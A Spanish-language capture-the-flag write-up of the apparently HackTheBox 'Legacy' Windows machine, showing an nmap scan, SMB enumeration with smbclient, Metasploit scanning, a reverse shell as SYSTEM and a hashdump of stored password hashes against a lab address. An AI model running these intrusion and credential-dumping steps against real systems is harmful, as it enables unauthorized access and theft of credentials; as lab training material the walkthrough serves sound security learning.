 # 1 - Legacy \(win\_easy\)

Comenzaremos lanzandole un **nmap** a la maquina

```text
nmap -T4 -p- -A -sS 10.10.10.4
```

![](../../.gitbook/assets/imagen%20%28456%29.png)

Vemos **139 y 445** relacionados con SMB -&gt; SAMBA file share.

![](../../.gitbook/assets/imagen%20%28461%29.png)

Es algo a destacar en los reportes, puede dar acceso a alguna shell.

Vamos a atacar SMB porque es lo abierto.

## Usando smb client de kali

```text
smbclient -L \\10.10.10.4\
```

Aca nos pide la contra de root pero fue un buen intento, otra posible a intentar

```text
smbclient -L \\\\10.10.10.4\\
smbclient -L \\\\10.10.10.4\\$ADMIN
```

No hubo suerte, entremos a **metasploit**

```bash
msfconsole
> search smb_version
//Aca salen los buscadores auxiliares, usamos el siguiente
> use auxiliary/scanner/smb/smb_version
```

Vemos las optiones para ver que solicita

```bash
options
// Como dice RHOSTS podemos atacar una subnet, pero solo estamos contra una maquina
> set rhosts 10.10.10.4
> exploit
```

![](../../.gitbook/assets/imagen%20%28462%29.png)

Buscamos eso en Rapid7 

![Me lo llevo ](../../.gitbook/assets/imagen%20%28460%29.png)

Tiramos **run** y pim pum REVERSE SHELL 

Como estamos en este samba es distinto el shell

```bash
getuid
server username: NT AUTHORITY\SYSTEM    //Basicamente root
```

![](../../.gitbook/assets/imagen%20%28455%29.png)

Vemos que tiene almacenadoh

```bash
hashdump
```

![](../../.gitbook/assets/imagen%20%28458%29.png)

![](../../.gitbook/assets/imagen%20%28459%29.png)

Ahi estan las flags a hackear.

